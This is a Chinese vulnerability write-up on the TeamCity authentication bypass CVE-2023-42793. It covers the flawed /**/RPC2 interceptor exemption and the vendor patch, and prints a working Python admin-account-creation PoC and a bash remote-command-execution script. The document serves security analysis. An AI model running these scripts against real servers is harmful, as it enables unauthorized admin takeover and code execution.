

# 奇安信攻防社区-【Web实战】JetBrains TeamCity 任意代码执行漏洞分析(CVE-2023-42793)

### 【Web实战】JetBrains TeamCity 任意代码执行漏洞分析(CVE-2023-42793)

TeamCity 是一款持续集成和软件交付 (CI/CD) 解决方案。该漏洞是由于对服务器 API 的访问控制不足造成的，允许未经身份验证的攻击者访问管理面板。利用该漏洞，攻击者可以通过网络访问 TeamCity 服务器，获取项目源代码，并通过在项目构建任务执行代理上执行任意代码，对基础架构发起进一步攻击。该漏洞可能会给供应商带来不可接受的网络安全事件。

## 一、漏洞介绍

TeamCity 是一款持续集成和软件交付 (CI/CD) 解决方案。该漏洞是由于对服务器 API 的访问控制不足造成的，允许未经身份验证的攻击者访问管理面板。

软件开发公司面临风险。

利用该漏洞，攻击者可以通过网络访问 TeamCity 服务器，获取项目源代码，并通过在项目构建任务执行代理上执行任意代码，对基础架构发起进一步攻击。该漏洞可能会给供应商带来不可接受的网络安全事件。

根据供应商的建议，要修复该漏洞，应将 TeamCity 服务器升级到 2023.05.4 版。 要降低与该漏洞相关的风险，应安装供应商的补丁插件。

## 二、漏洞复现

软件下载：[https://www.jetbrains.com/teamcity/download/other.html](https://www.jetbrains.com/teamcity/download/other.html)

我这里下载了：[2023.05.4 - Windows (exe)](https://download.jetbrains.com/teamcity/TeamCity-2023.05.4.exe)和[2023.05.3 - Windows (exe)](https://download.jetbrains.com/teamcity/TeamCity-2023.05.3.exe)，5.3版本用来复现漏洞，5.4版本用来代码对比，看看修改了哪里。

安装过程这里就不行了，执行，然后在网页配置就可以了。

这里分析其中的一个[python poc脚本(创建管理员用户)](https://github.com/H454NSec/CVE-2023-42793)，脚本跑完创建了一个新的管理员用户。


使用账号能够成功登陆



这个poc的代码流程也很简单，删除用户token-创建用户token-创建用户

```python
class CVE_2023_42793:
    def __init__(self):
        self.url = ""
        self.session = requests.session()

    def username(self):
        name = "H454NSec"
        random_id = random.randint(1000, 9999)
        return f"{name}{random_id}"

    def delete_user_token(self, url):
        self.url = url
        headers = {
            "User-Agent": "Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
            "Content-Type": "application/x-www-form-urlencoded",
            "Accept-Encoding": "gzip, deflate"
            }
        try:
            response = self.session.delete(f"{self.url}/app/rest/users/id:1/tokens/RPC2", headers=headers, timeout=10)
            if response.status_code == 204 or  response.status_code == 404:
                self.create_user_token()
        except Exception as err:
            pass

    def create_user_token(self):
        headers = {
            "User-Agent": "Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
            "Accept-Encoding": "gzip, deflate"
            }
        try:
            response = self.session.post(f"{self.url}/app/rest/users/id:1/tokens/RPC2", headers=headers, timeout=10)
            if response.status_code == 200:
                response_text = response.text
                root = ET.fromstring(response_text)
                value = root.get('value')
                if value.startswith("eyJ0eXAiOiAiVENWMiJ9"):
                    self.create_user(value)
        except Exception as err:
            pass

    def create_user(self, token):
        uname = self.username()
        headers = {
            "User-Agent": "Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
            "Accept": "*/*",
            "Authorization": f"Bearer {token}",
            "Content-Type": "application/json",
            }
        creds = {
            "email": "",
            "username": uname,
            "password": "@H454NSec",
            "roles": {
                "role": [{
                        "roleId": "SYSTEM_ADMIN",
                        "scope": "g"
                    }]
            }
        }
        try:
            response = self.session.post(f"{self.url}/app/rest/users", headers=headers, json=creds, timeout=10)
            if response.status_code == 200:
                print(f"{Green}[+] {Yellow}{self.url}/login.html {Green}[{uname}:@H454NSec]{Color_Off}")
                with open("vulnerable.txt", "a") as o:
                    o.write(f"[{uname}:@H454NSec] {self.url}\n")
        except Exception as err:
            pass
```

## 三、漏洞分析

### 3.1 找漏洞代码位置

获取代码：将上面下载的两个exe文件直接使用解压工具解压，就可以得到安装后的代码文件夹


补丁包里面是禁止访问/\*\*\\/RPC2这个路径。所以就从这里下手，进行查找。

使用java包反编译工具：jd-gui-1.6.6.jar，将/TeamCity-2023.05.3/webapps/ROOT/WEB-INF/lib/web.jar，这个文件拖到工具中即可查看反编译看代码了。使用搜索功能查找/RPC2。定位到代码位置：jetbrains.buildServer.controllers.XmlRpcController。


在查找getPathSuffix调用的位置可以看到一个感兴趣的路径拼接位置

下面这个为[2023.05.3 - Windows (exe)](https://download.jetbrains.com/teamcity/TeamCity-2023.05.3.exe)版本调用的代码位置jetbrains.buildServer.controllers.interceptors.RequestInterceptors


对比一下[2023.05.4 - Windows (exe)](https://download.jetbrains.com/teamcity/TeamCity-2023.05.4.exe)版本的同样的代码文件（如下图），去掉了通配符匹配路径，所以这里很可能就是关键点。


### 3.2 漏洞原理分析

接下来，我们就正向分析一下代码成因。

既然是身份认证绕过。首先，我们看一下配置文件，找一下认证的位置。发现认证位置在calledOnceInterceptors里面，这个的调用是在interceptors java类下面。


<mvc:interceptors>：这是 Spring MVC 中配置拦截器的部分。它列出了多个拦截器，这些拦截器将在请求处理过程中按顺序执行。每个元素引用一个拦截器 bean。这段配置文件指定了一组拦截器，它们将在请求处理过程中执行特定的逻辑。这些拦截器通常用于在请求到达控制器之前或之后执行一些操作，比如接下来的身份验证。而且可以看到这个calledOnceInterceptors是jetbrains.buildServer.controllers.interceptors.RequestInterceptors实例，也就是我们上面通配符部分的代码。这里将authorizedUserInterceptor认证添加到实例中。

```java
public RequestInterceptors(@NotNull List<HandlerInterceptor> paramList) 
    {   this.myInterceptors.addAll(paramList); 
        this.myPreHandlingDisabled.addPath("/\*\*" + XmlRpcController.getPathSuffix()); 
        this.myPreHandlingDisabled.addPath("/app/agents/\*\*"); 
        }
```

接下来将对请求进行拦截，代码在同文件的上面的位置，它是拦截器（Interceptor）中的 preHandle 方法的实现。让我解释一下这个方法有趣的部分：

if (!requestPreHandlingAllowed(paramHttpServletRequest)) return true：首先，它调用requestPreHandlingAllowed(paramHttpServletRequest) 方法来检查请求是否允许进行预处理。如果这个方法返回true，那么会执行 myInterceptors 列表中每个拦截器的 preHandle 方法。这就是允许拦截器执行身份验证等操作的地方。其中，authorizedUserInterceptor 是一个可能执行身份验证操作的拦截器，确保请求是否被授权执行。

在这段代码中，requestPreHandlingAllowed 方法检查是否应该跳过身份验证检查。其中，myPreHandlingDisabled 包含通配符路径 /\*\*/RPC2，用于测试传入 HTTP 请求的路径。如果请求的路径匹配了 myPreHandlingDisabled 中的路径，requestPreHandlingAllowed 返回 false，这将导致 preHandle 方法提前返回，从而绕过身份验证检查。

这是一个典型的授权绕过漏洞。如果攻击者能够构造请求，以便路径匹配 /\*\*/RPC2，则可以绕过身份验证，从而执行某些操作，而无需经过正常的身份验证和授权检查。

```java
  public final boolean preHandle(HttpServletRequest paramHttpServletRequest, HttpServletResponse paramHttpServletResponse, Object paramObject) throws Exception {
    try {
      if (!requestPreHandlingAllowed(paramHttpServletRequest))
        return true; 
    } catch (Exception exception) {
      throw null;
    } 
    Stack stack = requestIn(paramHttpServletRequest);
    try {
      if (stack.size() >= 70 && paramHttpServletRequest.getAttribute("__tc_requestStack_overflow") == null) {
        LOG.warn("Possible infinite recursion of page includes. Request: " + WebUtil.getRequestDump(paramHttpServletRequest));
        paramHttpServletRequest.setAttribute("__tc_requestStack_overflow", this);
        Throwable throwable = (new ServletException("Too much recurrent forward or include operations")).fillInStackTrace();
        paramHttpServletRequest.setAttribute("javax.servlet.jsp.jspException", throwable);
      } 
    } catch (Exception exception) {
      throw null;
    } 
    if (stack.size() == 1)
      for (HandlerInterceptor handlerInterceptor : this.myInterceptors) {
        try {
          if (!handlerInterceptor.preHandle(paramHttpServletRequest, paramHttpServletResponse, paramObject))
            return false; 
        } catch (Exception exception) {
          throw null;
        } 
      }  
    return true;
  }
```

## 四、漏洞利用

我们需要寻找在应用程序中使用了 /\*\*/RPC2 路径的端点，然后构造请求以匹配这个路径。一旦找到这样的目标端点，攻击者就可以发送请求，绕过身份验证和授权检查来执行攻击。

所以反编译了api文件：TeamCity-2023.05.3/webapps/ROOT/WEB-INF/plugins/rest-api/server/rest-api.jar，结合poc中的路径搜索/app/rest/users，确定代码位置：jetbrains.buildServer.server.rest.request.UserRequest，这里面出现了大量的占位符的url路径，这将允许我们提供/RPC2漏洞所需的 URI 部分。


而createToken方法允许调用者通过向端点发送 HTTP POST 请求来为指定用户创建访问令牌/app/rest/users/{userLocator}/tokens/{name}，而{name}允许结尾以/RPC2来绕过身份验证。通过将 "userLocator" 参数设置为 "id:1"，可以调用 "createToken" 方法并使用管理员用户的凭证来创建令牌。这个令牌可以用于进行授权操作或执行其他需要管理员权限的操作。


所以poc如下：

可以通过/app/rest/users/端点创建管理员权限token，/app/rest/debug/processes?exePath=可以执行任意命令。

```shell
#!/bin/bash

if [ "$#" -ne 3 ]; then
    echo "Usage: $0 <base_url> <port> <command>"
    exit 1
fi

BASE_URL="$1"
PORT="$2"
COMMAND="$3"

TOKEN_ENDPOINT="${BASE_URL}:${PORT}/app/rest/users/id:1/tokens/RPC2"
EDIT_FILE_ENDPOINT="${BASE_URL}:${PORT}/admin/dataDir.html?action=edit&fileName=config/internal.properties&content=rest.debug.processes.enable=true"
RCE_ENDPOINT="${BASE_URL}:${PORT}/app/rest/debug/processes?exePath=${COMMAND}"

TOKEN_RESPONSE=$(curl -X POST "$TOKEN_ENDPOINT")
BEARER_TOKEN=$(echo "$TOKEN_RESPONSE" | grep -oP 'value="\K[^"]+')

curl -s -X POST "$EDIT_FILE_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}"

RESPONSE=$(curl -s -X POST "$RCE_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}" | awk -F 'StdOut:|StdErr:' '{print $2}' )

curl -s -X DELETE "$TOKEN_ENDPOINT" -H "Authorization: Bearer ${BEARER_TOKEN}"

echo $RESPONSE
```

## 五、漏洞修复：

顺便分析一下漏洞补丁：[https://blog.jetbrains.com/zh-hans/teamcity/2023/09/critical-security-issue-affecting-teamcity-on-premises-update-to-2023-05-4-now/](https://blog.jetbrains.com/zh-hans/teamcity/2023/09/critical-security-issue-affecting-teamcity-on-premises-update-to-2023-05-4-now/)

还是一样通过工具反编译补丁包，这段代码在

myPreHandlingDisabled 对象中添加了路径 "/RPC2" 并删除了所有匹配 "/\*\*/RPC2" 的路径。这意味着它禁止访问所有类似 "/example/RPC2"、"/test/RPC2" 这样的路径。


升级到2023.05.4版本之后也可以修复这个漏洞。

参考文章：

[https://blog.jetbrains.com/zh-hans/teamcity/2023/09/critical-security-issue-affecting-teamcity-on-premises-update-to-2023-05-4-now/](https://blog.jetbrains.com/zh-hans/teamcity/2023/09/critical-security-issue-affecting-teamcity-on-premises-update-to-2023-05-4-now/)  
[https://blog.csdn.net/ptsecurity/article/details/133324429](https://blog.csdn.net/ptsecurity/article/details/133324429)  
[https://blog.csdn.net/qq\_43554604/article/details/132385749](https://blog.csdn.net/qq_43554604/article/details/132385749)
